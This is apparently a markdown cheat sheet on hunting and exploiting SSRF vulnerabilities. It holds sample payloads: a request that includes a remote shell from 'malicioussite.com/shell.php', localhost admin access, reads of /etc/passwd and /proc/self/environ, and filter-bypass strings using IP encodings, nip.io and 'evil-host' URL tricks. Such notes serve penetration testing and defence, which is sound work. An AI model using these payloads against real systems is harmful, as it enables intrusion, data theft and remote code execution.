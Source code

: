 ## SSRF Attacks 
- SSRF attacks against the server itself
- SSRF attacks against other back-end systems



## Exploiting SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## When hunting for SSRF vulnerabilities, we should `look for` OR `fuzz`:
- Parts of HTTP requests, including URLs
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is for local and remote file inclusion

- Load the Contents of a File (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin

Or:

GET https://example.com/page?page=http://127.0.0.1/admin

```
### methdology 
- try to include local or remote files (http,file,ftp)
- fuzz ports and check functionalities (ex:get dir listing)
- try to get info about the server (ex:/proc/self/environ , /etc/passwd)



## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.
- Providing a URL that you control, which subsequently redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL.
- Nip.io allows simple wildcard DNS for any IP address
```
127.0.0.1.nip.io
127.0.0.1.nip.io
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

